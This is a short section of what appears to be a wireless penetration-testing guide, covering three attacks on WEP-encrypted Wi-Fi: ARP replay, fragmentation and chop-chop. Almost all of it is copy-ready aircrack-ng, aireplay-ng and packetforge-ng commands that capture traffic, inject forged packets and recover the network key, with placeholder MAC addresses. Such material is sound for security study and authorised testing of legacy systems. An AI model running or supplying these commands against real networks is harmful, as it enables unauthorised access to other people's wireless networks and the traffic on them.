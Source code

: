 ### WEP Attacks

WEP (Wired Equivalent Privacy) is deprecated but still found on legacy systems. Multiple attack vectors exist.

#### ARP Replay Attack

Most common WEP attack - captures and replays ARP packets to generate traffic.

```bash
# Terminal 1: Start packet capture
sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w wep-capture wlan0mon

# Terminal 2: Wait for ARP packet, then replay
sudo aireplay-ng -3 -b AA:BB:CC:DD:EE:FF -h CLIENT_MAC wlan0mon

# Monitor IVs in airodump-ng - need ~20,000-50,000 for successful crack
# Terminal 3: Start cracking when enough IVs collected
aircrack-ng wep-capture-01.cap
```

#### Fragmentation Attack

Used when no ARP packets are available - obtains keystream for packet forging.

```bash
# Perform fragmentation attack
sudo aireplay-ng -5 -b AA:BB:CC:DD:EE:FF -h CLIENT_MAC wlan0mon

# This creates a .xor file with keystream
# Use keystream to forge packets
sudo packetforge-ng -0 -a AA:BB:CC:DD:EE:FF -h CLIENT_MAC \
  -k 255.255.255.255 -l 255.255.255.255 \
  -y fragment-*.xor -w forged-packet

# Inject forged packet
sudo aireplay-ng -2 -r forged-packet wlan0mon
```

#### Chop-Chop Attack

Alternative method when fragmentation fails - gradually determines keystream.

```bash
# Chop-chop attack
sudo aireplay-ng -4 -b AA:BB:CC:DD:EE:FF -h CLIENT_MAC wlan0mon

# Answer 'y' to questions about packet analysis
# Creates .xor keystream file

# Forge ARP packet with obtained keystream
sudo packetforge-ng -0 -a AA:BB:CC:DD:EE:FF -h CLIENT_MAC \
  -k 255.255.255.255 -l 255.255.255.255 \
  -y replay_*.xor -w chopchop-packet

# Inject forged packet
sudo aireplay-ng -2 -r chopchop-packet wlan0mon
```
